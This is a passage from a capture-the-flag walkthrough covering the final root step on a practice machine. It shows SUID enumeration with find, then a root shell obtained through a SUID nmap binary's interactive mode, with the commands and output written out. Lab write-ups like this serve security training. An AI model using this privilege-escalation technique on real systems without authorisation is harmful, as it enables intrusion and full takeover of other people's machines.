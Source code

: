 Now we can read our 2nd key.
## root

Let's now upgrade to root and get the 3rd key.
Before running any privilege escalation or enumeration script, let's check the basic commands for elevating
privileges like  sudo  and  id :

```terminal
robot@linux:~$ sudo -l
[sudo] password for robot:
Sorry, user robot may not run sudo on linux.
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$
```

We got nothing, let's now look for some SUID binaries using:`find / -type f -perm -04000 2>/dev/null`

```terminal
robot@linux:~$ find / -type f -perm -04000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$

```

We can use [GTFOBins](https://gtfobins.github.io/) to check for possible vectors, and we see that nmap does not have SUID bit by default. Let's use it to get root on the machine:

```terminal
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# cd /root
# ls
firstboot_done  key-3-of-3.txt
```

Great, and just like that, we have rooted this machine, hope you enjoyed it, see you in the next machine.
